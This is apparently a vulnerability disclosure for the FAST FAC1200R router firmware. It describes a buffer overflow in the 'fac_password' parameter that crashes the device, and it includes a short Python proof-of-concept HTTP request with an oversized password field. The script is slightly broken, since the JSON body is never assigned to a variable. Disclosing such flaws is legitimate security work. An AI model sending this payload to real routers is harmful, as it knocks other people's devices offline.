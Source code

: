 Submittion Date: 2025.4.18  
Vendor: FAC1200R
Firmware: F400_FAC1200R_Q
Download Link: https://service.fastcom.com.cn/download-265.html

The function sub_80435780 handles the important parameter string 'fac_password' without checking it, which leads to a buffer overflow vulnerability. After attacking, the device will crash (leading to DOS).

![image](image/uhttpd-fast-2.png)

Exploit the vulnerability by sending a carefully constructed HTTP request
```python
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds "
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
{"uhttpd":{"webPwd":{"password":"a","fac_password":"a"*0x2000}},"method":"set"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```

The exploitation is shown below.  
![image](image/fast-2.png)
